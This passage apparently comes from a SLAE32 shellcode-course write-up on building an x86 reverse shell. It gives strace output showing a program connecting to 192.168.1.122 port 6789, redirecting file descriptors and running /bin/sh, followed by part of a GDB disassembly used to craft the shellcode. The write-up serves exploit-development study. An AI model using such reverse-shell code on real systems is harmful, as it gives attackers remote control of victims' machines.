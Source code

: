 **Receiving reverse shell**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-03.png"/>

## Phase 2: Understanding how parameters are passed around using strace and GDB
The idea of debugging this was to set a breakpoint at each system call and analyze the registers and stack to see what is needed at the point of the call.  With this information we can then come up with our own way to get the same values setup properly in a shellcode safe manner.

We can get a quick view of the calls with strace as seen here (this is useful and is helpful when looking at the assembly dump in GDB). In most cases, you can see the value of each parameter that was used to the function calls which would be either on the stack or in one of the registers.  In the case of a parameter value that is enclosed in curly braces {} this is likely a pointer to a struct that resides on the stack.

```
[sengen@manjaro-x86 assignment2]$ strace -e socket,connect,dup2,execve ./rev_shell
execve("./rev_shell", ["./rev_shell"], 0xbfd4efe8 /* 55 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6789), sin_addr=inet_addr("192.168.1.122")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", NULL, NULL)           = 0
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_UNIX, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_UNIX, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=31304, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
+++ exited with 0 +++
```

The following is the dump of the main function. I put breakpoints before each function call I was interested in and printed the relevant register or stack information for use when I write my shellcode.
```nasm
gdb$ disassemble main
Dump of assembler code for function main:
   0x0040068d <+0>:	lea    ecx,[esp+0x4]
   0x00400691 <+4>:	and    esp,0xfffffff0
   0x00400694 <+7>:	push   DWORD PTR [ecx-0x4]
   0x00400697 <+10>:	push   ebp
   0x00400698 <+11>:	mov    ebp,esp
   0x0040069a <+13>:	push   ebx
   0x0040069b <+14>:	push   ecx
   0x0040069c <+15>:	sub    esp,0x30
   0x0040069f <+18>:	call   0x400590 <__x86.get_pc_thunk.bx>
   0x004006a4 <+23>:	add    ebx,0x195c
   0x004006aa <+29>:	mov    eax,gs:0x14
   0x004006b0 <+35>:	mov    DWORD PTR [ebp-0xc],eax
   0x004006b3 <+38>:	xor    eax,eax
   0x004006b5 <+40>:	lea    eax,[ebx-0x17cc]
   0x004006bb <+46>:	mov    DWORD PTR [ebp-0x28],eax
   0x004006be <+49>:	mov    DWORD PTR [ebp-0x24],0x1a85
   0x004006c5 <+56>:	sub    esp,0x4
   ; socket --------------------------------------------------------------------------
   0x004006c8 <+59>:	push   0x0
   0x004006ca <+61>:	push   0x1
   0x004006cc <+63>:	push   0x2
   0x004006ce <+65>:	call   0x400500 <socket@plt>
   ; gdb$ x/3w $esp
```